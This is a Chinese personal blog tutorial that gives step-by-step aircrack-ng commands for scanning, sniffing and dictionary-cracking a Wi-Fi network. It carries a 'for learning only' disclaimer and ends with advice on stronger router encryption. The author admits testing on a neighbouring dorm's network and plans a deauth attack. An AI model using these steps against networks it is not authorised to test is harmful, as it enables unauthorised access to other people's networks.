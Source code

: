 ```yaml
---
layout:     post
title:      无线网络攻防初探
date:       2015-10-1 11:40:25
author:     Hsmouc
summary:    使用aircrack－ng工具暴力破解Wi-Fi密码
categories: wifi
thumbnail:  heart
tags:
 - 欢迎来我的博客
---
```

- 写在文前：由于相关法律法规本文章不予显示(╯°Д°）╯︵ /(.□ . \)想什么呢…… 好吧，这项技术呢，是不允许的啦，仅供学习，而且千万不要拿隔壁人家的AP做试验喔，黑自己就好了嘛。  

##准备工作  
###原材料
1. 带网卡的计算机
2. 无线路由器 
3. Linux或Mac OS X系统 （什么你是windows？请出门右拐)
4. aircrack-ng （我才不会告诉你们我还有kismet呢）

###安装必备的工具
首先我们进[aircrack](http://www.aircrack-ng.org)的官网。右侧边栏[Installation](http://www.aircrack-ng.org/install.html)选择相应的系统，比如我选择On Mac OS X。然后它说"The simplest and easiest way to install on Mac OS X is via [Macports](https://www.macports.org). You simply do “sudo port install aircrack-ng”."默认大家都过四级了，我就不翻译了。然后我们下载一个Macports，默认大家都会用Mac装dmg。然后装好了，试试它给我的命令：
{% highlight c %}
sudo port install aircrack-ng
{% endhighlight %}
终端里出现了这样的提示
{% highlight c %}
zsh:command not found: port
{% endhighlight %}
好吧，让我们来google一下怎么了。其实这个原因很简单，你装完了Macports，但是终端并不知道你有了新后宫，所以呢更新下路径就解决了。
{% highlight c %}
sudo vi /etc/paths
{% endhighlight %}
增加新的两行：
{% highlight c %}
/opt/local/bin
/opt/local/sbin
{% endhighlight %}
*小贴士：下面装完aircrack-ng的时候还要用这个噢*
好了，让我们再输入一次:
{% highlight c %}
sudo port install aircrack-ng
{% endhighlight %}
然后终端就是这样子的:
![](http://ww1.sinaimg.cn/mw690/005WMcFzjw1ex6rt5bfh7j31400p0grg.jpg)
安装完毕后，输入aircrack-ng --help指令试试。果然还是command not found。用上面搞port问题的方法可以解决。再介绍一个其他方法：  
终端输入：
{% highlight c %}
export PATH=$PATH:/opt/local/bin
{% endhighlight %}
成功了！
##Hacking  
###扫描
在终端里输入指令：
{% highlight c %}
airport en0 scan
{% endhighlight %}
什么？你又报错了？那就对了，那是因为你没有找到airport的路径，也没有把airport加入到sbin下面。解决办法是执行下面的命令：
{% highlight c %}
sudo ln -s /System/Library/PrivateFrameworks/Apple80211.framework/\Versions/Current/Resources/airport /usr/sbin/airport
{% endlhighlight %}
再试一次，这时候我们看到终端上出现了一些wifi的信息。我们选择WEP加密的无线网络，记下它的channel.
###监听
使用命令：
{% highlight c %}
sudo airport en0 sniff 1
{% endhighlight %}
解释一下，我选择的是一个1信道，SSID为429的无线网络。好嘛，这就是隔壁宿舍的宿舍号嘛-_-＃之后会发现网卡进入了监听模式。过了一会，按control＋c来结束监听，这时候会提示你^CSession saved to/tmp/airportSniffxxxxx.cap，监听环节结束。
###跑包
我们首先在终端里输入：
{% highlight c %}
aircrack-ng -w ~/wordlist.txt /tmp/airportSniffxxxxxx.cap
{% endhighlight %}
-w表示使用字典， ~/wordlist.txt是字典的所在路径，/tmp/airportSniffxxxxxx.cap是包所在的位置。
回车以后
![](http://ww2.sinaimg.cn/mw690/005WMcFzjw1ex6rstrn2kj313w0cjq60.jpg)
观察handshake和IVs数值，我们选择handshack的数值为1的429，记下序号为10。在index number of target network里面输入10.
就会出现下图这样类似黑客帝国中炫酷的画面：![](http://ww1.sinaimg.cn/mw690/005WMcFzjw1ex6rswn550j313w0cjjtk.jpg)ps打不开这个截图，我就不打码了，成神别砍我T_T
##总结
一次最简单的Wi-FiHacking就这么完成了，知道你们的Wi-Fi有多不安全了吧。因为是成神的Wi-Fi，确定他不会砍我，所以我甚至没有隐藏我的MAC地址。用aircrack-ng可以做到什么程度呢？WEP/WPA2加密的无线网络，只要有足够长的时间，只要密码本足够全，破解密码只是时间问题。所以说，大家在加密Wi-Fi的时候首先不要用WEP加密，这种加密基本可以秒破。WPA2加密的密码最好保证长度，要有大小写，特殊符号等等，这样可以大大增加黑客解包的难度。被黑客攻下AP可不仅仅是多一个人蹭网的简单后果，严重程度可以参见知乎问题[无线路由器被蹭网后，有被黑的风险吗](http://www.zhihu.com/question/23061570)。  
关于aircrack-ng的其他功能我会继续介绍，我也会继续关注无线网络安全。

<li>对了,我的外置usb无线网卡已经在路上了，我会尝试使用Deauth攻击噢～</li>